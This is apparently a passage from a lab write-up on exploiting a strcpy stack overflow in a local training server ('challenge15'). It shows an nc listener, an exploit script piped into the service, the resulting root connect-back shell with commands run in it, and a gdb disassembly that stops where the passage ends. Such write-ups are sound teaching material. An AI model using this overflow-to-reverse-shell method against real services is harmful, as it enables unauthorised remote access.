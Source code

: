 ## Exploit

Lets try the exploit:

Start the server:
```
root@hlUbuntu64:~/challenges/challenge15# ./challenge15
Listen on port: 5001
```

Start a listener:
```
root@hlUbuntu64:~/challenges/challenge15# nc -l -p 1337
```

And start the exploit:
```
root@hlUbuntu64:~/challenges/challenge15# ./challenge15-exp.py | nc localhost 5001
```

The server has some strange error messages:
```
Client connected
Received username with len 267
bash: redirection error: cannot duplicate fd: Bad file descriptor
bash: 181: Bad file descriptor
```

But you can enter commands into the netcast listener:
```
root@hlUbuntu64:~/challenges/challenge15# nc -l -p 1337

ls
challenge15
challenge15.c
challenge15-exp.py
Makefile
peda-session-challenge15.txt
id
uid=0(root) gid=0(root) groups=0(root)
^C
root@hlUbuntu64:~/challenges/challenge15# nc -l -p 1337
ls
challenge15
challenge15.c
challenge15-exp.py
Makefile
peda-session-challenge15.txt
```

## Why does it work?

Lets set a breakpoint before the `ret` of the vulnerable function:

```
gdb-peda$ disas handleData
Dump of assembler code for function handleData:
   0x00000000004009a6 <+0>:     push   rbp
   0x00000000004009a7 <+1>:     mov    rbp,rsp
   0x00000000004009aa <+4>:     sub    rsp,0x110
   0x00000000004009b1 <+11>:    mov    QWORD PTR [rbp-0x108],rdi
   0x00000000004009b8 <+18>:    mov    QWORD PTR [rbp-0x110],rsi
   0x00000000004009bf <+25>:    mov    rdx,QWORD PTR [rbp-0x108]
   0x00000000004009c6 <+32>:    lea    rax,[rbp-0x100]
   0x00000000004009cd <+39>:    mov    rsi,rdx
   0x00000000004009d0 <+42>:    mov    rdi,rax
   0x00000000004009d3 <+45>:    call   0x400780 <strcpy@plt>
   0x00000000004009d8 <+50>:    mov    rax,QWORD PTR [rbp-0x108]
```